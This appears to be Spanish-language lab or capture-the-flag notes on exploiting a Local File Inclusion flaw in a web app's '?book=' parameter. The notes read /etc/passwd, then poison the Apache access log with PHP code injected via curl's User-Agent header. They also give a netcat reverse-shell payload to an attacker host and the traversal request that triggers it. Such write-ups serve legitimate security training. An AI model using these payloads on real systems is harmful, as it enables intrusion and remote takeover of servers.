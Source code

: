 En Linux, Apache suele escribir registros en los directorios `/var/log/apache2/access.log` o `/var/log/httpd/access.log` dependiendo de tus anulaciones de OS y Host Virtual.

En la web vemos el siguiente indicio de Local File Inclusion:

![[Pasted image 20250713170842.png]]

Mediante la etiqueta `?book=` accede a recursos locales del sistema, veremos si podemos listar archivos sensibles de la máquina como el `/etc/passwd`.

![[Pasted image 20250713171058.png]]
![[Pasted image 20250713171129.png]]

Ahora intentaremos ver el archivo de logs de apache `access.log`.

![[Pasted image 20250713171546.png]]
![[Pasted image 20250713171517.png]]

En los logs vemos reflejado el `User-Agent`, el cual, con la herramienta `curl` podemos modificarlo para intentar inyectar código php malicioso y como la web interpreta php, vamos a poder ejecutar comandos de forma remota.

```
curl -s -X GET "http://192.168.1.40/" -H "User-Agent: <?php system('whoami'); ?>"
```

![[Pasted image 20250713172128.png]]

![[Pasted image 20250713172305.png]]

Vemos que podemos ejecutar comandos de forma remota intentaremos enviarnos una reverse shell a nuestra máquina atacante. Antes debemos ponernos en escucha en nuestra máquina atacante:

```
sudo nc -lvnp 443
```

Ahora enviamos el código malicioso a la web.

```
curl -s -X GET "http://192.168.1.40/" -H "User-Agent: <?php system('nc 192.168.1.33 443 -e /bin/bash'); ?>"
```

Y accedemos al recurso para que el código malicioso se ejecute:

```
curl -s -X GET  "http://192.168.1.40:8593/index.php?book=../../../../../../../../var/log/apache2/access.log"
```

![[Pasted image 20250713173155.png]]
